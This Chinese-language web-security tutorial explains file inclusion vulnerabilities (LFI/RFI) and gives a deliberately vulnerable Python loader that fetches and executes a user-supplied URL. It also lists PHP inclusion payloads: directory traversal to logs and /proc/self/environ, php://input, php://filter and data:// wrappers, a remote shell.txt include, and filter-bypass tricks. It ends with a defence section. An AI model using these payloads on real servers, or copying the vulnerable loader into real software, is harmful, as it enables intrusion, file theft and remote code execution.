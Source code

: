 

# 文件包含漏洞(LFI/RFI)

## 什么是文件包含

为了使代码具有更好的复用性，引入了文件包含函数，可以通过文件包含函数将文件包含进来，直接使用包含文件的代码

## 漏洞成因

在包含文件时候，为了灵活包含文件，将被包含文件设置为变量，通过动态变量来引入需要包含的文件时，用户可以对变量的值可控而服务器端未对变量值进行合理地校验或者校验被绕过，这样就导致了文件包含漏洞。通常文件包含漏洞出现在PHP语言中。

## 要点

文件包含可以包含任意文件，即便被包含的文件并不是与当前编程语言相关，甚至为图片，只要被包含的文件，其内容会被包含文件包含，并以包含文件当前语言执行

## 文件包含分类

文件包含可分为2个类别: 本地文件包含 `LFI(Local File Inclusion)`, 远程文件包含 `RFI(Remote File Inclusion)`

## 本地文件包含 `(LFI)`

能够读取或执行包含服务器本地文件以及资源

## 远程文件包含 `(RFI)`

能够读取或执行包含远程服务器的文件及资源, 利用针对的是`http`、`ftp`等协议

```python
import urllib.request
import sys
import types

def load_module(url):
    # url参数用户可控导致python远程文件包含
    u = urllib.request.urlopen(url)
    source = u.read().decode('utf-8')
    mod = sys.modules.setdefault(url, types.ModuleType(url))
    code = compile(source, url, 'exec')
    mod.__file__ = url
    mod.__package__ = ''
    exec(code, mod.__dict__)
    return mod
```

### 前置条件

需要在php.ini配置

- allow_url_fopen=On
- allow_url_include=On

## 利用函数

- PHP
    - include
        - 在包含过程中出错会报错，不影响执行后续语句
    - include_once
        - 仅包含一次
    - require
        - 在包含过程中出错，就会直接退出，不执行后续语句
    - require_once

## 文件包含形式

常见的文件包含漏洞的形式为 ``<?php include("inc/" . $_GET['file']); ?>``

考虑常用的几种包含方式为

- 同目录包含 ``file=.htaccess``
- 目录遍历 ``?file=../../../../../../../../../var/lib/locate.db``
- 日志注入 ``?file=../../../../../../../../../var/log/apache/error.log``
- 利用系统环境 ``/proc/self/environ``
- 临时文件包含 ``/tmp``
- session文件 ``php的session文件的保存路径可以在phpinfo的session.save_path看到``
- 包含上传文件

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

## 绕过技巧

常见的应用在文件包含之前，可能会调用函数对其进行判断，一般有如下几种绕过方式

### url编码绕过

如果WAF中是字符串匹配，可以使用url多次编码的方式可以绕过

### 特殊字符绕过

- 某些情况下，读文件支持使用Shell通配符，如 ``?`` ``*`` 等
- url中 使用 ``?`` ``#`` 可能会影响include包含的结果
- 某些情况下，unicode编码不同但是字形相近的字符有同一个效果

### %00截断

几乎是最常用的方法，条件是magic_quotes_gpc打开，而且php版本小于5.3.4。

### 长度截断

Windows上的文件名长度和文件路径有关。具体关系为：从根目录计算，文件路径长度最长为259个bytes。

msdn定义 ``#define MAX_PATH 260``，其中第260个字符为字符串结尾的 ``\0`` ，而linux可以用getconf来判断文件名长度限制和文件路径长度限制。

获取最长文件路径长度：getconf PATH_MAX /root 得到4096
获取最长文件名：getconf NAME_MAX /root 得到255

那么在长度有限的时候，``././././`` (n个) 的形式就可以通过这个把路径爆掉

在php代码包含中，这种绕过方式要求php版本 < php 5.2.8

### 伪协议绕过

- 远程包含: 要求 ``allow_url_fopen=On`` 且 ``allow_url_include=On`` ， payload为 ``?file=[http|https|ftp]://websec.wordpress.com/shell.txt`` 的形式
- PHP input: 把payload放在POST参数中作为包含的文件，要求 ``allow_url_include=On`` ，payload为 ``?file=php://input`` 的形式
- Base64: 使用Base64伪协议读取文件，payload为 ``?file=php://filter/convert.base64-encode/resource=index.php`` 的形式
- data: 使用data伪协议读取文件，payload为 ``?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=`` 的形式，要求 ``allow_url_include=On``

### 协议绕过

``allow_url_fopen`` 和 ``allow_url_include`` 主要是针对 ``http`` ``ftp`` 两种协议起作用，因此可以使用SMB、WebDav协议等方式来绕过限制。


## 防御

- 严格判断包含中的参数是否外部可控，因为文件包含漏洞利用成功与否的关键点就在于被包含的文件是否可被外部控制
- 路径限制：限制被包含的文件只能在某一文件内，一定要禁止目录跳转字符，如：`../`
- 包含文件验证：验证被包含的文件是否是白名单中的一员
- 尽量不要使用动态包含，可以在需要包含的页面固定写好，如：`include('head.php')`
- 必要时, 可将php.ini的配置选项allow_url_include，allow_url_fopen状态设置为OFF

## 参考链接

- [Exploit with PHP Protocols ](https://www.cdxy.me/?p=752)
- [lfi cheat sheet ](https://highon.coffee/blog/lfi-cheat-sheet/)
- [paper01](https://chybeta.github.io/2017/10/08/php%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/)
- [paper02](https://ca0y1h.top/Web_security/basic_learning/13.%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/)